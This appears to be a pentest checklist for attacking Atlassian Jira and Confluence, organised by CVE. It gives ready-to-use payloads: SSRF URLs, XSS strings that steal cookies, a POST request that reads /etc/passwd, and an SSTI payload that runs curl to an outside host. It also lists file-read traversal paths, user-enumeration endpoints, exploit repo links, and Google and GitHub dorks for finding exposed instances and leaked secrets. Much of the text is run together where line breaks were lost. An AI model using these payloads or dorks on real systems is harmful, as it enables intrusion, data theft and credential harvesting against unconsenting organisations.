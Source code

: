- [ ] jirescan

```
<https://github.com/netspooky/jLoot><https://github.com/0x48piraj/Jiraffe><https://github.com/bcoles/jira_scan><https://github.com/MayankPandey01/Jira-Lens>nuclie template
```

- [ ] cve-2017-9506 (ssrf)

```
Navigate to <JIRA_URL>/plugins/servlet/oauth/users/icon-url?consumerUri=<ssrf payload>
```

- [ ] cve-2018-20824 (xss)

```
Navigate to <JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```

- [ ] cve-2019-8451 (ssrf)

```
Navigate to <JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<host_name>:1337@example.com
```

- [ ] cve-2019-8449 (user info disclosure)

```
Navigate to <JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```

- [ ] cve-2019-8442 (sen info disc)

```
Navigate to <JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/ maven/com.atlassian.jira/atlassian-jira-webapp/pom.xmlObserve that the pom.xml file is accessible.
```

- [ ] cve-2019-3403 (username enum)

```
Navigate to <Jira_URL>/rest/api/2/user/ picker?query=<user_name_here>Observe the difference in response when valid vs. invalid user is queried.
```

- [ ] cve-2019-3402 (xss)

```
Navigate to <JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=SearchObserve that the payload is getting executed.
```

- [ ] cve-2019-3396 (path traversal, rce)

```
1. Try Below POST Request with the JIRA Target2. POST /rest/tinymce/1/macro/preview HTTP/1.1Host: {{Hostname}}Accept: */*Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_ 64; rv:60.0) Gecko/20100101 Firefox/60.0 Referer: {{Hostname}}Content-Length: 168Connection: close <give an enter and remove this comment>{"contentId":"786457","macro":{" name":"widget","body":"","params":{"url":" <https://www.viddler.com/v/23464dc5","> width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```

- [ ] cve-2019-11581 (template inj)

```
Navigate to <JIRA_URL>/secure/ContactAdministrators!default.jspaTry SSTI payload in subject and/or body:$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl <http://xyz.burp>(.)net').waitFor()
```

- [ ] cve-2020-14179 (info disclosure)

```
Navigate to <JIRA_URL>/secure/QueryComponent!Default.jspaIt leaks information about custom fields, custom SLA, etc.
```

- [ ] cve-2020-14178 (project key enumeration)

```
Navigate to <JIRA_URL>/browse.<project_ key>Observe the error message on valid vs. invalid project key. Apart from the Enumeration, you can often get unauthenticated access to the project if the protections are not in place.
```

- [ ] cve-2020-14181 (user enumeration)

```
Navigate to <JIRA_URL>/secure/ ViewUserHover.jspa?username=<username>Observe the response when valid vs. invalid username is provided.
```

- [ ] CVE-2022-26135 ( Full-Read Server Side Request Forgery in Mobile Plugin for Jira Data Center and Server )

```
<https://github.com/assetnote/jira-mobile-ssrf-exploit>
```

The following HTTP request can be used to reproduce this issue, once authenticated to the Jira instance:

```
POST /rest/nativemobile/1.0/batch HTTP/2Host: issues.example.comCookie: JSESSIONID=44C6A24A15A1128CE78586A0FA1B1662; seraph.rememberme.cookie=818752%3Acc12c66e2f048b9d50eff8548800262587b3e9b1; atlassian.xsrf.token=AES2-GIY1-7JLS-HNZJ_db57d0893ec4d2e2f81c51c1a8984bde993b7445_linUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36Content-Type: application/jsonAccept: application/json, text/javascript, */*; q=0.01X-Requested-With: XMLHttpRequestOrigin: <https://issues.example.com>Referer: <https://issues.example.com/plugins/servlet/desk>Accept-Encoding: gzip, deflateAccept-Language: en-US,en;q=0.9Content-Length: 63{"requests":[{"method":"GET","location":"@example.com"}]}
```

- [ ] Check Privileges  
    Inside a Jira instance any user (even non-authenticated) can check its privileges in

```
/rest/api/2/mypermissions or/rest/api/3/mypermissions
```

These endpoints will return your current privileges.If a non-authenticated user have any privilege, this is a vulnerability (bounty?).If an authenticated user have any unexpected privilege, this a a vuln.

```
\#Check non-authenticated privilegescurl <https://jira.some.example.com/rest/api/2/mypermissions> | jq | grep -iB6 '"havePermission": true'
```

- [ ] CVE-2017-9506 , CVE-2019-8449 , CVE-2019-11581,CVE-2019-8451

```
<https://github.com/0x48piraj/Jiraffe>
```

- [ ] cve-2018-5230

```
<https://hackerone.com/reports/380354><https://jira.atlassian.com/browse/JRASERVER-67289>HOW TO EXPLOIT: <https://host/issues/?filter=-8>Go to the link aboveClick the "Updated Range:" text areaPut your XSS payload in "More than [ ] minutes ago" (15 character payload limit) or in "In range [ ] to [ ]" (No length limit, ONLY put the payload in the first box) Click Update Payload will run.If it doesn't run chances are you used double quotes somewhere. Only use single quotes!
```

- [ ] CVE-2020-29453 (Pre-Auth Limited Arbitrary File Read)

```
<http://host/s/1xqVb9EKKmXG4pzui1gHeg0yrna/_/%2e/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml>if its not running redirecting to login panel then run it with curl
```

- [ ] CVE-2020-36287 (Atlassian JIRA: Incorrect Authorization)

```
Affected software: Atlassian Jira Data Center, Jira Server (also tested on Jira Project Management Software) Affected Vesrion: Before version 8.13.5, and from version 8.14.0 before version 8.15.1 CVEID: CVE-2020-36287 CVSS Score: 5.3(Medium) CVSS Score: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N Fully Patched Version: 8.13.5, 8.15.1, 8.16.0Link: <https://site.com/secure/Dashboard.jspa>POC: <https://site.com/rest/dashboards/1.0/10000/gadget/{ID}/prefs>POC: <https://github.com/f4rber/CVE-2020-36287><https://www.rapid7.com/db/vulnerabilities/atlassian-jira-cve-2020-36287/><https://jira.atlassian.com/browse/JRASERVER-72258> [Anonymously accessible Dashboards can leak private information via configured gadgets CVE-2020-36287]
```

- [ ] CVE-2020-36289 (Atlassian Jira Unauth User Enumeration)

```
Vulnerable:Jira < 8.5.13 8.6.0 ≤ Jira < 8.13.5 8.14.0 ≤ Jira < 8.15.1Summary:The remote web server hosts a web application that is affected by an information disclosure vulnerability.Affected endpoint:<https://example.com/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin>Description:The instance of Atlassian Jira hosted on the remote web server is affected by an information disclosure vulnerability in QueryComponentRendererValue!Default.jspa due to an improper access restriction. An unauthenticated, remoteattacker can exploit this, by sending a specially crafted HTTP request, to disclose sensitive information which may aid in further attacks.References:<https://jira.atlassian.com/browse/JRASERVER-71559><http://www.nessus.org/u?b658a05a>
```

- [ ] CVE-2021-26084 (Confluence Server Webwork OGNL Injection)

```
<https://github.com/march0s1as/CVE-2021-26084>
```

- [ ] CVE-2021-26086 (Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include)

```
PoC:<https://github.com/ColdFusionX/CVE-2021-26086>/_/;/WEB-INF/web.xml/_/;/WEB-INF/decorators.xml/_/;/WEB-INF/classes/seraph-config.xml/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties/_/%3B/WEB-INF/web.xml/_/%3B/WEB-INF/decorators.xml/_/%3B/WEB-INF/classes/seraph-config.xml/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.propertiesReferences:<https://cloudsek.com/threatintelligence/jira-software-server-cve-2021-26086-vulnerability-actively-exploited-in-the-wild><https://github.com/ColdFusionX/CVE-2021-26086><https://raw.githubusercontent.com/crowdsecurity/sec-lists/master/web/jira_cve_2021-26086.txt>
```

- [ ] CVE-2022-0540 - Atlassian Jira Authentication Bypass

```
<https://github.com/Pear1y/CVE-2022-0540-RCE>
```

- [ ] Google dork section

```
inurl:/plugins/servlet/wallboard/(This will give all the Jira dashboard which might be vulnerable to XSS.) (Sensitive Data Exposure)<https://www.exploit-db.com/ghdb/6528>This is testing for confluence(Older version) Found CVE:-2018-20824Created dork: inurl:"/plugins/servlet/Wallboard/"EP:/?dashboardId=10102&dashboardId=10103&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=fadeZoom&random=false<https://twitter.com/hackersden_/status/1417573513859244032>Useful Jira dorks:inurl:"dashboard.jspa"inurl:xyz intitle:JIRA loginsite:*/JIRA/loginintitle:"Log In JIRA" inurl:"8080:/login.jsp"intext:"Welcome to JIRA" "Powered by a free Atlassian Jira community"inurl:companyname intitle:JIRA logininurl:visma intitle:JIRA loginintext:"Confluence" ext:jsp intitle:"Jira"inurl:<http://confluence>. login.actioninurl:<https://wiki>. .com/confluence/allinurl: /confluence/login.action?intitle:dashboard-confluenceinurl:/ContactAdministrators!default.jspainurl:/secure/attachment/ filetype:log OR filetype:txt
```

- [ ] Github recon

```
Github recon Via github dorks to find secret:-"site[dot]com" send_keys"site[dot]com" client_secret"site[dot]com" jira/root password
```

- [ ] [ ]